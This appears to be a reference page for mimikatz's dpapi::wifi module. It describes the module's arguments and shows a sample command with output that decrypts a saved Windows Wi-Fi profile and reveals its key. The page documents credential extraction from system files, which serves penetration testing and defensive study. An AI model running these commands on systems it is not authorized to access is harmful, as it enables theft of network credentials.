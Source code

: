 # wifi

`dpapi::wifi` decrypts saved Wi-Fi passwords. It has the following command line argument:

* `/in`: The Wlan XML profile. The XML file's location is at `C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{interface guid}*.xml`
* `/password`: the password to decrypt the Wi-Fi key
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/unprotect`: display the decryption results on screen

```
mimikatz # dpapi::wifi /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{F4257B8E-3599-4A6F-AEA2-B3B7646ECA80}\{25F4C906-099A-4871-826D-8A604C132954}.xml" /unprotect
Profile 'Timokleia'

 * SSID name     : Timokleia
 * Authentication: WPAPSK
 * Encryption    : AES

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {f4bff6c3-18ee-435f-b27d-a68e5275389e}
  dwFlags            : 00000000 - 0 ()
  dwDescriptionLen   : 00000002 - 2
  szDescription      :
  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : 4143ac5b363376ee3ad89cf5063ab321fa85df9019fc1cc1c0c440af61df1ea5
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 69ff3dea262e96881bb300a790574c9703c2d21f1e950cd9d7cd8293a44c4923
  dwDataLen          : 00000010 - 16
  pbData             : e7596546caf68b275814b14bcfce78d0
  dwSignLen          : 00000040 - 64
  pbSign             : c5203a5844b9a00187b76769fadb20e923b502d593c78462c1fb8c5347247e2249772f989160f02a321b4f3c40d1d41dec18af0c417e5279d89728f359a1fde4

 * using CryptUnprotectData API
 * Key Material  : SecureWPAPass
```
